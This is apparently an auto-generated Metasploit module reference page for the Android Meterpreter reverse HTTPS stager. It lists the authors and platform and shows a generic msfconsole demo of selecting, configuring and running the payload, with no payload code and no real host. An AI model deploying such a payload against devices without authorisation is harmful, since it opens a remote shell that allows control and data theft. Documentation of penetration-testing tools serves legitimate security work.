 ## Android Meterpreter, Dalvik Reverse HTTPS Stager

Run a meterpreter server on Android. Tunnel communication 
over HTTPS


## Module Name
payload/android/meterpreter/reverse_https

## Authors
* mihi
* egypt
* anwarelmakrahy
* OJ Reeves





## Platforms
* android

## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use payload/android/meterpreter/reverse_https
msf payload(reverse_https) > show targets
   ... a list of targets ...
msf payload(reverse_https) > set TARGET <target-id>
msf payload(reverse_https) > show options
   ... show and set options ...
msf payload(reverse_https) > run
```
    
    